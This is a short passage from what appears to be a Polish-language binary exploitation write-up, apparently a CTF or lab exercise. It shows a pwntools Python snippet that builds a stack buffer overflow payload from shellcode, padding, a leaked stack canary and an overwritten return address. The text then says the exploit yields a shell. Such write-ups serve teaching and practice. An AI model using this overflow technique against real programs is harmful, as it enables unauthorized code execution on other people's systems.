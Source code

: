 ```python
buffer_addres = some_addres - offset

log.info("BUFFER: 0x%08x" % buffer_addres)

send = shellcode + b"A"* (buffer_len - len(shellcode)) + p32(canary) + b"BBBBCCCCDDDD" + p32(buffer_addres)

p.sendline(send)

p.interactive()
```







W wyniku działania powyższego exploita uzyskujemy shella. Na potrzeby kolejnego screena wyłączone zostało wypisanie stacka na konsole.

![](pictures/2_shell.png)
